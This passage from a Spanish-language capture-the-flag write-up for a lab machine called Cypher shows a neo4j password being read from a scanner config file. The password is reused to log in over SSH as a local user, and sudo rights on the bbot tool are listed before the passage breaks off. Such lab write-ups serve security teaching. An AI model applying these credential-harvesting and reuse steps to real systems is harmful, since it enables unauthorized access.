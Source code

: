 
## Credentials Leakage

Si vemos el contenido del archivo `bbot_preset.yml`, veremos unas credenciales para `neo4j`

~~~ bash
neo4j@cypher:/$ cat /home/graphasm/bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
~~~


## Shell as `graphasm`

Esta contraseña nos permite autenticarnos como el usuario `graphasm`

~~~ bash
ssh graphasm@cypher.htb

graphasm@cypher.htb\'s password: 
Last login: Thu Jul 10 06:41:54 2025 from 10.10.14.187

graphasm@cypher:~$ export TERM=xterm
~~~

Ya podemos ver la flag del usuario sin privilegios

~~~ bash
graphasm@cypher:~$ cat user.txt 
5fa...
~~~
<br>


# Escalada de Privilegios
---
## Abusing `bbot` - Sudoers Privileges

Listando los privilegios configurados en `/etc/sudoers`, podemos ejecutar `bbot` como cualquier usuario (incluyendo `root`) sin proporcionar contraseña

~~~ bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
~~~
